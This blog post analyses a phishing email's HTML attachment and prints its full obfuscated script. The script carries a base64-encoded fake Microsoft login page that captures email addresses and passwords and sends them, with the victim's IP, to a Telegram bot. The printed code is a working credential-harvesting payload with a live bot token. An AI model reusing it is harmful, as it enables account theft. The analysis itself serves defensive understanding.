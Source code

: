 +++
title = "More Phishing Attempts"
date = 2022-08-23T00:31:33Z
description = "Another day, another phish"
draft = false
tags = ["security"]
tracking_area = "javascript"
tracking_id = ""
+++

Well, that was quick, less than a week since [my last one]({{<ref "/posts/2022-08-18-breaking-down-another-phishing-attempt.md">}}) and here we go again.

For transparency, this one did actually land in my junk mail, so I wouldn't have seen it if I hadn't been looking for an email that I should've received (totally unrelated to getting phished though 🤣), but since I did see it, it's time to dig into it again!

The premise of this one is the same as the last one, although the email was much more brief, only containing my email address in the body and the HTML file attachment.

Speaking of the HTML, it was a bit different this time:

```html
<script>var e\u006dail="<yes, my email was here>";var tok\u0065\u006e='5\x374\062\u0038\0607394\u003a\u0041AEY\171\x56gRLp3\132YYweU\161\144cbUdsGWj\163\x6e-\x53k\063w\u0030';var c\u0068a\u0074\u005fid=5486255038;var d\u0061ta=ato\u0062("PC\x46\105T0\x4eUWV\102\106IGh0bWw+Cjxod\x471sIGRp\143\x6a0ibHRyIiBjbGFzc\x7a0iI\x69B\x73\131W\x35nPSJlb\u0069I\053CiAg\111C\x41\x38a\107VhZD4KIC\x41g\u0049DxtZXRh\111Gh\x30dHAt\132XF1aXY9I\153NvbnR\x6cbnQtVHlw\132\123Ig\u005929udGVudD0i\144G\x564\u0064C9od\x47\u0031sOy\u0042\152aG\106y\x632V0PVVURi04I\x6a4\x4bICAgID\u0078\x30a\u0058RsZ\x545\124\141Wdu\111Gl\x75\u0049HR\166\x49H\154v\144XI\x67YWNj\1423Vu\x64DwvdG\u006c0bGU+C\x69\x41gICA8bWV0YSB\x6fd\x48Rw\114\127\126\170dWl2PS\x4a\u0059\114VVBL\x55N\166\x62X\x42hdG\x6c\151bGUiIGNvb\x6e\122\u006c\u0062nQ9I\x6b\154FPW\x56\x6bZ2U\151Pg\157gICAg\120G1ldG\x45\147\u0062m\u0046\x74\x5aT\u0030idmlld3B\u0076cn\u0051iIG\u004ev\x62n\x52\x6cbnQ9\x49n\144\160ZHRo\u0050WR\154\x64\x6d\154jZS13aW\122\x30aC\167gaW\x35p\144\x47lhbC1z\x592FsZT0x\x4cj\x41s\x49G\u0031\150eG\u006ct\144W0\x74c2NhbGU9M\1514\167\u004cCB1\x632VyLXN\u006aYW\170\u0068Y\155x\154PXllcy\111\x2bCi\x41gICA\u0038c\u0032Ny\x61X\u00420IHNyY\u007a\u0030\151a\110\x520cHM6Ly9ha\x6d\1064Lm\144vb\u0032d\163ZW\106wa\130M\165Y29tL2FqYX\u0067vbG\154icy9qcX\u0056\154\143n\u006bv\115y40\114j\x45vanF1\x5a\x58J\u0035Lm\061\160b\u00695\x71\x63\u0079I\u002bPC\071zY3J\x70cHQ+\u0043iA\x67\111C\x418bG\x6cuayByZWw\u0039\111\x6e\u004eob\063J\060Y\063V0IGlj\1422\x34i\111Ghy\132WY9Imh0\144HBzOi\u0038vY\x57F\153\x59\u0032Ru\114m1\u007aZn\x52h\144\130R\157L\1555l\u0064C\x39z\141GFyZW\121v\u004dS4\u0077\x4c2Nvb\x6eR\154bnQva\x57\061\x68Z\062VzL\x32Zh\x64ml\u006a\u00622\065fYV9l\x64XBh\u0065WZnZ2hx\141\x57FpN\062s5c29\x73\116\155\170\x6e\u004di5\x70Y\062\070\151\120iA\x67\u0049C\x41KIC\x41\147\111D\170saW5\x72I\x47\122hdG\105tbG\071hZ\u0047\u0056yPSJj\132\1074iIGNyb3Nzb3J\160Z2l\165PS\112hbm9u\u0065W1vdXMiIGh\u0079\x5a\x57Y9Imh\x30\144HBz\117i8vYW\x46\153Y\062R\165Lm1zZn\x52h\x64XRoL\u006d5ld\x43\x39l\x633R\172\114\x7a\111\x75\x4dS9jb\062\x350\132W50L2NkbmJ1b\x6d\122\163ZXM\166Y29\165\144m\x56yZ2Vk\x4c\156\u0059yLm\170vZ\062\154u\114\u006d1pb\x6c\0716a\u0058\154\u0030\132j\u0068kenQ5ZWcxczYtb\u0032hobGV\156M\x695jc3M\x69IH\x4albD\060ic3R5bGVza\107Vld\103\111+CiAg\x49C\u00418\x63\062\u004eya\130\x420Pg\u006fg\x49C\101gICAg\x49CQ\157ZG\071\x6a\u0064\1271l\x62\156Qp\x4c\x6eJl\x59\127R5\u004bG\1321bm\1160\x61\x579\165KC\x6bgeyQ\157\u0049iNkaXNwb\x47F5Tm\106tZ\123IpLmVt\143\u0048\1225\113CkuY\130Bw\132\1275\u006bK\x47VtYW\u006c\163\113TsgJ\1035nZX\x52\x4bU\0609OKCJodHRwcz\x6f\x76L2\u0046\167a\u00535pcG\x6cm\x65S5v\x63mc\x2f\132m9yb\127\u00460PWp\u007ab\0624\x69L\x43Bm\x64W5jdGlv\142ihkYXRhK\x53\102\067JCg\u0069\111\062\x64m\u005ayIp\x4cmh0bWwo\x5aGF0YS5\160cCk7fSl\071\x4b\124s\x4bIC\101\x67\111Dw\166\u00632\116\171aX\1020\x50go8L2\150\x6cY\127Q+\103jxib2R5IGN\x73YXNz\120SJ\x6aYiIgc3R\065bGU9I\x6d\122pc3B\163YX\1536IGJ\x73b2Nr\x4f\171\x49+Cjx\x77IGlkPS\u004an\132m\u0063iIHN0e\127x\u006cPSJ\153\x61\x58\116w\x62\x47\x465O\151Bu\x62\0625\x6cOy\x49\x2bPC9\167\120go8Zm9y\142S\102uYW1\154P\123JmM\123Iga\127Q9\u0049m\x6bw\u004djgx\x49\151Bub3Z\x68bG\x6ckY\x58Rl\120\x53Jub3\x5ah\u0062G\154kYXRlI\x69\x42zc\x47\126\x73bGNoZ\127NrP\u0053\x4a\155YWx\x7a\132SI\x67\142WV0aG\071kPS\u004awb3N0I\x69\u0042\060Y\130J\u006eZ\x58Q9\111l9\060b3AiIG\106\061\u0064G\u0039jb21\167\u0062GV0\u005a\x54\u0030ib\x32ZmI\151BhY\063\122pb24\x39IiI+CiAgIC\x41\070\132Gl\x32IG\u004esYX\116z\120SJsb\x32\144\x70bi1\167YWd\u0070bmF\060ZWQtc\x47FnZ\123I+\x43i\101\147ICAgICAg\u0050\107R\u0070d\151\x42pZD0ib\107l\u006eaH\x52ib3\150UZW1wbGF\060Z\125NvbnR\u0068\141\1275lc\u0069I\x2b\x43jxkaXY\147aWQ9\x49mxpZ\x32\u00680\x59m\x39\064QmFj\141\062\144y\u00623V\x75Z\u0045\116v\x62nRhaW5\u006cci\x49+C\u0069AgICA8ZGl2I\107NsYX\116z\120SJiYWNrZ3JvdW\x35kLWltYWd\154\114W\x68\x76b\107R\u006c\x63i\x49gcm9\163Z\x540icHJ\154c\x32VudGF0aW9uI\x6a4KICA\x67ID\x78\x6ba\x58YgY2\x78h\x633\x4d\071\u0049m\112\150Y2\164ncm\x391b\x6dQt\x61W1hZ2U\x67ZX\1500LW\112\x68\x592tn\143\15591bmQ\164aW1\x68\x5a2UiIH\1160eWx\154\x50\123JiYWN\x72Z3\112vd\1275kLWltY\u0057dl\117\151\x42\u0031\x63\x6dw\x6fJnF1\u0062\x33Q\x37aHR0cH\115\066L\x799h\x59\x57\x52\x6aZG4ubX\116mdGF1dG\x67u\x62mV\060L3\116oYXJl\132\103\x38x\x4c\x6aAv\x5929u\144G\u0056\165\u0064C\x39pbWFnZ\130\u004dvYmFj\x612d\171b3VuZHMvM\1549i\u0059zN\u006b\115z\112hN\152k\062O\u0044k\u0031\x5a\152c\x34YzE\u0035\132G\1312Y\172\143\u0078NzU\064NmE1ZC\x35zdmcmcXVv\u0064\u0044s\160OyI\053PC\x39kaX\131+Cjwv\x5aGl2Pjwv\132Gl2P\x67o\x38\u005aGl\x32\x49GNsYX\x4ezPSJv\x64X\122lc\151I\x2bC\151AgI\u0043A8\x5aG\154\u0032IGN\x73YXN\x7a\120\123J0ZW1w\x62\107F0\132S1zZ\127N\060aW\x39uI\x471haW4\164c2\x56\152\144Glvb\151I\u002b\x43iAg\111C\u0041\147IC\x41\x67\u0050\x47Rp\u0064iBjb\x47\u0046zcz0\x69bW\u006ck\x5a\x47\x78l\x49G\x564dC\x31t\x61W\122\u006bbGUiP\x67ogICA\u0067\111CAgIC\101gI\103\u00418Z\107l2IGN\u0073\x59\130Nz\120SJmdW\170sLWhlaWd\u006f\144C\x49\u002bCj\170\u006b\x61\x58Y\147Y2xhc3M9I\u006dZ\163Z\130gtY\062\u0039\u0073d\1271\u0075\x49j4\x4bICA\u0067ID\u0078k\x61XYgY2x\u0068\u00633\1159\u0049nd\160bi1zY3Jv\142Gwi\x50gogI\103\x41gICAg\u0049Dx\x6baX\131\147a\u0057Q9Imx\160\x5a2h0Ym94I\151\u0042jbGF\172\143z0\151c2\154nb\x691pb\x691i\u00623\147\x67ZXh0LXN\160Z24ta\127\u0034t\x59m\x394IGZ\u0068ZG\u0055taW4\164\x62G\154\x6ea\u0048Ri\1423gi\120gog\x49\103A\x67IC\101\x67\u0049\104\x78k\141XY+PG\154t\132yBjbG\x46\x7ac\1720ib\u00479\u006eb\171Igcm\u0039\163\u005a\u00540ia\x571\156IiB\x77b\x6d\x64zcm\x4d9I\x6dh0\x64H\u0042\x7a\x4f\1518vYW\x46\x6bY2R\x75Lm\x31\172Z\156RhdX\122\x6f\114m5\u006c\x64C\x39za\107\106yZWQv\x4dS4\x77L\062Nvb\x6e\x52lb\u006e\121\u0076a\x571\150\x5a2V\u007aL2\u0031\x70\131\063\112vc\x329\155dF\071s\142\x32\x64\u0076\x582Vk\x4fWM\x35\132W\u0049\x77ZGNl\115TdkNzU\x79YmVkZWE2YjVhY\062\122hNmQ5\x4cnBu\x5ay\111gc3Znc3J\x6a\x50SJodHR\167\143zo\166L2\x46\x68\u005aGNkbi5\164\x632Z\060\x59XV0aC5u\132\130\x51vc\x32hhcm\126kL\x7aE\165M\x439jb2\x350ZW50\1142lt\131\127\144l\u0063y9t\141\x57N\171\x623NvZ\x6eRfb\u00479\u006e\14219lZ\124\126j\x4f\107Q5\132mI2M\152Q\x34YzkzOGZ\153MGRjMTkz\x4ezBlO\124B\x69ZC5z\x64m\u0063iI\110NyYz0\x69\x61HR0c\u0048M6Ly9hY\127RjZG\x34ubXN\155dGF1\144\x47\x67\x75bm\126\x30L3\116\157Y\130JlZC\u0038\x78LjAv\x5929ud\107\u0056u\144\1039p\x62W\x46nZX\115vbW\154jcm9z\x622Z\x30X2\170vZ29fZWU\061\u0059\172hk\x4fWZiN\u006aI\u0030OGM5MzhmZDBkYzE5Mzcw\132Tkw\131m\121uc\x33ZnIiBh\x62\110\u00519Ik\061pY3Jv\u00632\u0039\x6d\u0064\103I+PC9\x6ba\u0058Y\u002b\x43\x69AgICA\u0067IC\x41g\u0050GRpdiByb2\170\154\120S\x4a\x74Y\127luIj4KPGR\x70\x64\x69BjbGF\172cz0\151Y\u0057\065pb\u0057F\060ZS\102\x7a\142\107\x6ck\132S1pbi1uZXh0\111j\064\u004bICAgIC\x41\x67ICA8ZGl2\111D4KPG\x52pdi\x42\152\142G\106\172c\x7a\x30\x69\u0061WRlbn\x52\160dHl\103\x59\127\065\165Z\130\x49\x69Pgo\x67\x49CAgPGR\u0070di\102p\u005aD\x30iZG\x6cz\x63GxheU\065\x68bW\125iIGNsYXNzPS\112p\132GVu\x64Gl0eSI+\x50C\071kaX\131+\103\152w\x76Z\107l2\120jw\166Z\107l2P\x67\x6fgICA\x67\120C9k\141XY+C\151AgICA\u0038Z\x47l2IGN\u0073YXN\x7aP\u0053Jw\u0059\x57\144\x70\142\x6dF\x30aW9u\u004cXZp\u005aXc\x67\x59W5\u0070bWF0ZSBoYX\u004d\u0074a\x57\122l\142nRpd\x48\x6bt\x59m\x46ubmVy\x49HN\163\141WR\154LWl\x75LW\u0035le\110Qi\x50g\157gICA\x67\u0050GR\u0070\144\u006a4\x4bC\u006a\170k\141XYg\141WQ\u0039ImxvZ2lu\123\107VhZG\x56\x79\x49iB\u006a\u0062GFzcz\x30\u0069\u0063m93\111HRp\x64\107xlI\x47\u00564d\x4310\141X\x52sZSI\u002b\x43\x69AgICA8ZGl\x32\x49H\112\166b\107U\x39\x49m\x68l\131W\122pb\x6dci\u0049GFy\141WE\x74bG\126\u0032ZW\u00779\111\152\x45i\x50kVudG\x56yI\x48B\x68c3N3b3JkP\103\x39\x6baXY+C\x6aw\x76ZGl\062\u0050\x67\x6f\u0038ZGl2IG\154kP\123\u004a\154cnJ\166\u0063n\x423IiBzdHlsZT0iY2\x39s\142\063I\066\u0049\x48Jl\x5aD\163g\142W\x46yZ\x32luOiAxNXB4\117yBtYXJnaW4t\u0062\x47\126mdD\157\x67M\u0048B\064\117\x79\x42t\x59XJnaW\064\164\x64G\u0039w\u004fiAwc\x48g7\111G1\x68\143md\x70b\x691\x69b3\u0052\x30\1422\x306\u0049D\x42w\145\u0044siP\x6a\x77vZ\u0047l2\120go8Z\107l2I\107\u004esYXN\x7a\x50S\112yb3\143iPg\x6fg\u0049C\x41gPGR\160d\151Bj\142\107\106zc\u007a\u0030\151Zm9yb\123\061n\143m91cC\u0042\152\142\u0032\167t\u0062\127Q\x74\u004d\152\u0051i\u0050\147ogICAgI\103A\147\u0049\x44xkaX\131gY2xhc3\x4d\071InB\x73\131WNla\107\x39sZG\x56yQ2\071udGFpbmVy\111\x6a4\113IC\101gICA\u0067ICAgI\103AgP\x47lucHV0\u0049\x47\x35\x68\142WU9In\x42hc3N3ZCIg\144H\x6cw\132T\x30\u0069c\u0047F\x7ac3d\x76\143mQiI\107\u006ckP\123JpMDEx\117CIgYXV0b2NvbXB\u0073ZXRlP\x53\u004av\u005amYi\x49GNsYXN\x7aP\x53\x4amb3Jt\114W\x4evbn\x52\171b2wg\x61\x57\x35wd\x58QgZ\x58h\x30L\127\154uc\110V0\111H\122leH\121t\131m\071\u0034I\107V4dC10\x5aX\x680LW\u004a\166e\u0043I\147cGxhY\062\126o\u0062\x32xkZ\u0058I9\u0049\u006c\102\150c3N\063b3JkIiByZXF1aXJlZ\u0043\x41vPg\1578L\x32\x52pd\1524K\u0049\103AgID\x77v\u005a\107l\x32P\x67o8L\062Rpd\152\x34KPGR\x70\u0064\x6a4K\120GRpdiBjbGFzcz0i\x63\1079z\x61\x58Rpb2\u0034\u0074Yn\x560\144G9uc\x79I+C\151\101g\111CA8Z\x47l2P\147ogICA\x67ICA\147\111D\u0078\x6ba\130Y\147Y2xh\1433M9In\u004avd\171I\x2b\103i\u0041g\u0049CA\147I\103\u0041gI\x43AgIDxk\141XYgY2x\x68c\x33M9\x49m\x4e\x76\x62C1t\u005aC\060yNCI+\u0043iAg\111C\101\x67IC\101g\111CA\x67\u0049CAgI\x43A8ZG\x6c2I\u0047\u004es\x59\130NzP\123J0\u005aXh\x30LTEzI\152\064\113I\x43AgICAg\111CA\x67I\u0043A\147\111CAgICAg\111CA\x38\x5aG\1542\111\107Ns\131X\u004ez\u0050S\u004amb\063\u004at\114\127d\171b3\u0056wI\1524\113\111CA\x67\x49CAgI\103A\x67\x49CAgICAg\u0049\x43AgI\103\101g\111CA\x67PGEgaW\u00519\u0049\x6d\154k\121\x56\x39\121V0RfRm9\x79\x5a29\u0030\x55\x47F\172c\u0033dvcmQiIHJvb\107\u00559\111\x6d\170pb\155\x73\151\111\x47\150yZWY\071I\x69\115\151Pk\132\u0076c\155dvdH\122lb\x69B\u0074eSBwY\130Nzd\x32\x39yZDw\166YT4K\x49C\x41g\111CAgI\x43\101gI\103\u0041\u0067I\x43A\u0067\u0049\x43Ag\111CA8\u004c\062R\x70dj\x34KP\x47Rp\x64\u0069Bj\x62GFz\x63z0i\132m9ybS\x31ncm9\u0031c\x43I\x2bCjwvZG\x6c2PgogICAg\x49\x43Ag\111\104x\153a\130\u0059\x67Y2\170\150c\x33M9\u0049\u006dZ\x76cm0tZ3JvdXAi\x50go\147ICAg\111CAg\u0049CAgICA\070YSBpZD\x30iaTE2\u004ej\u0067i\111\107hyZ\x57Y9Ii\x4diPlNpZ24\x67aW4gd2l\060aCBhbm90\141GVyI\107Fj\x5929\u0031bnQ8L2E\053CiAgICAg\111C\101g\x50C9k\141XY+PC\x39ka\u0058\131+\x50\103\x39\u006baXY+PC9ka\x58Y+Ci\x41gIC\1018L2\x52\u0070\u0064\1524K\103\x69\x41\x67I\u0043\u0041\x38ZGl\u0032\u0049G\x4es\131\x58\116zPSJ3aW4tYnV0d\107\071uL\x58B\x70\x62i1ib3\x520b20\151\u0050g\157gI\x43Ag\u0049CAgIDx\153a\u0058Yg\1312x\150\1433M9\111nJ\166dyI\u002bCiAg\x49\u0043AgI\x43AgICA\x67\111Dx\153\u0061XY+PGRpdiB\u006a\142GFzc\172\060iY29s\114X\x68\x7a\u004cT\x49\x30\u0049\1075vLXB\x68\132GR\u0070bmctb\x47\126md\x431\171aWdod\103B\151\u0064XR0b\x324tY2\071\x75dG\u0046p\x62mVy\111j4KI\103A\147IDx\153\141XYgY2x\150c\x33M\x39ImlubG\154uZ\1231i\142G9ja\u0079I\053CiA\u0067IC\101g\111\x43Ag\120GlucHV\x30IH\x525\u0063GU9\u0049nN1Ym1pd\u0043I\147\x61W\1219Im\x6c\x6b\x550\154C\144X\x52\060\u0062245I\x69BjbGFz\u0063\x7a0\x69d\x32l\x75\114WJ1dHRvbiBidXR0b\u00325\146cHJpbWF\u0079\145S\u0042\x69d\u0058\1220b\u0032\064g\x5aXh0L\x57J1dHRv\x62iBw\u0063\x6dltY\x58J\x35IG\1264\144C1wcm\154tY\x58J5I\151B2\131Wx1ZT0\x69U2lnbiBp\x62iI\x2b\103iAgIC\x418L2\122\x70dj4K\x50\u00439\153\u0061XY+PC9\153aXY\x2bC\151\x41gI\103A\x67\111CAgPC9k\141XY+C\151A\147\111CA8\x4c\x32Rp\144j\064\113P\x439kaXY\053\x50C9kaXY\x2bC\151AgICA\x38\x4c2\x52pdj4KPC9\153a\u0058Y+PC9k\141\x58\131+PC\u0039k\u0061\x58Y+PC9ka\u0058Y+\x43\x69Ag\111CA8L2Rpd\1524KP\1039kaXY+\x50C9\x6baXY+\u0043\151\x41gICAgIC\u0041\u0067\x50\u00439k\141XY+CiAg\u0049C\x41\x38L2Rpdj4KICA\147\111\104\x78kaXY\147a\x57Q9ImZv\x623Rl\u0063iIgc\x6d\071sZT\x30\151\x5929u\144\107VudGluZm8\x69\x49\u0047\116sYXNz\120S\112m\u00622\0710Z\x58IgZXh0\x4cWZvb3\122l\x63iI+Ci\101gI\x43\101\x67I\103\x41gPGRpdj4KPG\x52\160\144\x69BpZ\1040iZ\155\071vd\x47VyTGl\x75\u00613\x4di\111GNsY\130N\x7a\120\123J\u006db2\0710ZX\x4aOb2R\154IHR\u006ceHQtc\062\126\x6ab2\065\u006b\x59X\112\u0035Ij4K\111CA\147ICAg\x49CA\x38YS\102\160ZD\060i\132nRyV\u0047VybX\u004diI\u0047hyZWY9\111iMi\x49G\u004e\x73YXNzP\x53Jm\14229\060Z\130I\164Y29\x75\u0064GVudC\x42l\145HQ\164Z\1559v\144G\x56\u0079L\x57Nv\x62nRlbnQ\u0067Zm9vdGV\171LWl0\x5a\1270\x67\u005a\x58h\x30LWZvb3Rlci1pd\x47V\u0074Ij5UZXJtc\171BvZiB1c\u0032\125\x38\114\u0032\105\053C\u0069\x41gICAg\x49CA\147P\x47EgaWQ9ImZ0c\x6cByaX\x5ahY3\u006biIG\x68yZ\u0057Y9I\x69MiIG\x4e\x73YXNz\120SJmb290ZX\111tY29udGVu\x64\103BleHQtZ\155\u0039\x76\144G\x56yL\x57\x4evb\u006eR\u006cbnQgZ\u006d9\x76dGVyLWl\x30ZW\x30gZXh0LWZvb3Rlc\x69\x31p\x64GVt\u0049j\x35Qcml\062\x59WN\x35I\103ZhbXA7I\u0047\x4e\u0076\1422tpZX\u004d8L\x32E+C\151A\x67ICA\x38\131SBpZD0i\142W9yZU9wd\u0047l\u0076bn\u004d\151I\x47\150\171\132WY\071Ii\x4d\u0069I\107FyaWE\164bGFiZWw\u0039\111k\116\u0073aWNrIGhl\x63mU\x67Zm9yIHRyb\u0033V\x69bGVzaG9v\u0064\u0047luZyBp\142mZvcm1\x68dGlvb\x69IgY2x\x68c3\u004d\x39Im\132\x76b3Rl\x63i1\x6ab\06250Z\u0057\0650IGV4\144C1mb2\x390ZXItY29udG\x56udCBm\x62290\x5aXItaXRlb\x53Bl\145\110\121\164Z\x6d\071\x76\144\x47VyLW\1540Z\u00570\147\x5aGV\x69dWctaXR\x6cb\123B\u006c\145HQtZGVidWctaXRlb\123\111+Li4u\x50\1039\150\x50go\070L2Rp\x64\x6a48L\062\u0052p\x64j\x34K\111CAgIDw\x76\132\x47l2Pgo8L2\u0052pd\x6a48\1142Rp\x64\x6a4\x38L2\u0052\u0070dj4K\x50C9\155b\x33\x4atPgo\x38\x632Ny\x61X\x420P\x67ogICA\147dm\x46y\111\107\x4evdW50I\x440gM\u0044s\113ICAgI\x48ZhciBwc3dkMTsKIC\101gIG\122vY3\x56tZW50\x4cmdldEVsZ\u0057\061lbnRC\x65UlkKCJp\x5aF\x4eJ\u0051nV0d\107\u0039uOSIp\114mF\x6bZE\x56\x32\u005aW50\x54Glzd\x47VuZXI\x6fI\155\116\163aWNrIiwgZn\u0056u\u00593Rpb\x324\u006f\x5aSk\147ewogI\103A\x67ZS\u0035\x77cmV2\u005aW5\u0030R\107Vm\x59XVsdC\147p\x4fwo\u004bIC\101gIHZhci\x42wc\063dk\u0049D0\147\x5aG9jdW\061lbnQu\x5a2\x56\u0030\x52W\170lb\u0057\x56udEJ\065SWQoJ2k\x77MTE\x34\x4aykudmFsdW\125\u0037CiA\147IC\x42p\132i\101ocH\x4e3Z\x43A\u0039PSBudWx\163IHx8IHB\u007a\u00642Q\x67PT\x30gI\u0069Ipewo\u0067\x49CAgICA\147IGRvY\063VtZW50Lmd\154\x64\x45Vs\132\x571lbnRCe\u0055lkKCdlcnJ\166c\156B\063\u004aykuaW5uZ\x58\x4a\x49\126E\x31MI\x440\147YF\u006c\166dXIg\131W\x4ejb3\x56\165dCBw\u0059XNz\14429yZCBjYW\065\x75\x62\x33QgY\155\125gZW1\x77d\110kuIGl\x6dIHlvdSB\u006bb24n\u0064CB\x79\u005aW1l\x62WJl\143iB5b3\126y\u0049\x48Bhc3N3b3JkLC\x418\131SBocmVm\120\u0053\111j\u0049j5y\x5a\x58NldC\x42pdC\x42\x75b3cu\u0050C9hPmA7Ci\u0041\u0067\111CAgIC\x41\147c2V0\126\107ltZW91\144CgoKS\x419\120iB7ZG9jdW\061lbnQ\x75Z2V0RWx\x6c\142W\126u\x64E\u004a5SWQoJ2\x56ycm9ycH\u0063\u006eK\x53\x35p\u0062m5\x6c\x63\x6bhUT\x55wgP\123AnJzt9LCAzM\104AwK\124t\u0039C\151AgICBl\x62\110NlI\107l\x6dK\x48Bz\x642QubGVuZ3Ro\x49\104wgNS\u006c\067\103iA\x67ICA\147\111\x43A\x67\132\107\x39j\x64\u00571l\x62\x6eQu\x5a2\x56\060RWx\x6c\142\x57\126udE\1125S\127QoJ2V\171cm9\u0079cHcnKS\x35pb\1555\x6cc\u006bh\125TUwg\x50S\101i\x57W91\143iBh\1312N\x76d\x57\x350\111HB\u0068c\x33N3\u00623J\x6bIGlzIHRvbyBz\141\x479y\144C4\u0069Owog\x49CA\147IC\101gIH\116ldFRpb\127VvdXQ\u006fK\x43\153gPT4ge\062RvY\u0033\x56t\132W5\x30Lm\x64\154dE\x56sZ\x571\u006cb\x6eRCe\u0055lkKCdlcnJvc\x6eB\u0033Jyk\x75\x61\1275uZ\u0058JIV\x451MID0gJyc7I\x47\u0052\x76\x593Vt\132W50Lmd\154dE\u0056sZW\061\x6cbn\122CeU\x6ckKCJpMDI4M\x53IpLn\u004alc2V0KCk\x37\x66S\167gMzAw\u004dCk7CiAgICB9IGV\163c2U\147\141\127\131g\x4bGNvdW50PD\x45pewog\111CA\147I\x43\x41gIHBz\u0064\062\121\170\x49D0gZ\107\x39jdW1lbnQ\x75Z2V\060R\u0057x\x6cbWVudEJ5SWQo\112\x32kwM\x54\x45\064Jykudm\x46\u0073dW\1257CiAgICAg\x49\u0043AgZ\u0047\071jd\x571lbn\121uZ\x32\x560\122Wxlb\u0057V\x75dEJ5SWQ\x6f\x4a\x32Vycm9ycHcn\u004bS5pbm5lckhUT\x55wgPS\x42g\x57W91c\151BhY\x32\x4e\166d\x5750I\107\x39\171\111\x48B\150c\063N3b3Jk\111GlzIG\u006cuY29y\u0063mV\u006adC\x34g\u0061W\131geW91\u0049GRvbid\x30\x49\x48Jlb\x57VtY\x6d\x56\u0079\111Hl\166dXI\u0067cGFzc3\144vcmQsIDx\150IG\u0068yZWY9Ii\x4diPn\u004a\x6cc2\u00560I\107l0IG5v\144y\x348L\x32E+Y\x44\163\x4bICAg\x49\x43A\147\x49CBkb2N1bWVudC\x35\u006eZXRFbGV\164ZW5\x30Qn\u006c\112ZC\147iaTAyODEiKS5yZXNldC\147\160Oy\102jb3V\u0075dCsr\1173\x30KICAgIGVsc\x32Uge\u0077\u006f\u0067ICAgICA\x67IH\132\x68ci\x42JUC\101\x39IGRvY\x33\x56tZW50Lmdld\105V\u0073\132W1lbnRCeU\u006ckKCdn\x5amc\x6eKS5\060Z\u0058h0Q2\x39udGV\165dD\163KICAg\u0049CA\x67IC\x422YX\u0049gbWVz\1432FnZS\x419IGA\x39\u0050T\0609PT0g\u0054zM2NS\x42SZ\u0058N1bHQgPT09PT0\u0039\130\x48Jc\x62\153VtYWls\u004f\151Ak\1452VtYWlsfV\170yX\u0047\x35QYX\116\172\x6429yZ\x44E6IC\x527cHN3\x5a\u0044F9XH\u004a\x63blBhc3N3b3\112\u006bMjogJHt\x77c\063dk\u0066V\u0078\171X\x475JUD\x6f\147a\u0048R\060c\x48\x4d\066L\x799pc\1031h\143G\x6bu\13129tL\x79R\067SV\102\071XHJ\143b\x6cVzZ\u0058\u0049t\x51W\144\u006cb\u006eQ\x36ICR7bmF2a\127dhd\1079\u0079L\x6e\x56z\x5aX\x4aB\132\x32Vud\u00481\143\143l\x78\u0075PT09P\124\u00309PT0\u0039\u0050T09PT09PT\x30\x39PWA7\u0043iAgI\103\101gICA\u0067\u0064mF\171\111HNld\110\122pb\x6ddzID0gew\x6f\147IC\101\x67ICAg\x49CAg\111\103A\151\u0059X\1165\142m\115i\x4fiB\060\x63nVlLCA\u0069Y\u0033\x4av\u00633N\x45b\062\u0031haW\x34i\x4fiB0\143\x6eVlLCA\x69dXJsIj\x6f\x67\111\155h\x30\x64HBz\x4f\151\x38v\x59XBp\u004cnRlbGVncmFtL\u006d9\x79Zy\u0039i\142\063\121i\111\u0043sgdG\x39\162\132W\064gK\x79\x41\x69L3Nlb\x6dRNZ\x58NzY\127\x64lIiwKI\103\101g\111\x43A\147IC\x41g\111C\u0041gIm1l\144GhvZCI6ICJQ\1241N\x55\u0049\u0069\x77gI\x6dhlYW\122l\143nMi\u004fiB7\x49kN\x76b\156\122lb\156Q\164\x56H\154\167\132\123I\066ICJ\x68cH\102\x73aWN\x68dG\154\x76\142\x699qc\u00329uI\151\167\u0067\u0049mN\u0068Y2\u0068lL\x57NvbnRyb2\167i\x4fiAib\155\u0038t\x59\062\106jaGU\x69fS\x77K\u0049\x43\x41gICA\147\111C\101g\111CA\x67\111\u006d\122hd\x47\105iOi\u0042KU09O\114n\1160cm\154u\1322lme\123h7\111mNoYX\u0052\u0066a\x57\121iO\151B\152\141GF0X2lkLCAidGV\x34\x64\x43I\066\111\1071l\143\x33NhZ\062V9KX\x30\u004b\111\x43\u0041gIC\x41gIC\x41kLm\106\161YX\147o\1432\u00560dG\x6c\u0075\1323\115p\u004c\155R\x76bm\x55\x6f\113HJlc3Bv\142nN\x6cKSA9PiB7d\u0032luZ\107\071\x33Lm\u0078\u0076Y\u0032\x46\x30\141W9uLn\x4a\x6c\x63Gx\x68\x592UoJ\x32h\u0030\x64\110BzOi\070v\x63G9\x79d\107FsL\u006d\x39m\x5amljZ\123\u0035j\x622\x30\166c2Vy\x64m\154jZ\130N0YXR1cy\x63p\1173\x30pOwo\u0067IC\101\x67fSA\113I\103\x41gIH\060\x70O\x79AKP\x439zY3Jp\x63HQ+C\u006awvZGl\x32\120jwvYm9k\x65T48L\u0032h0b\127w+");\u0064\u006fc\u0075m\u0065\u006e\u0074.write(data);</script>
```

What's interesting is they've exploited that you can use unicode escaping for JavaScript identifier names, which [is legal as per the spec](https://262.ecma-international.org/#sec-identifier-names).

Let's take this:

```js
var e\u006dail="<yes, my email was here>";
```

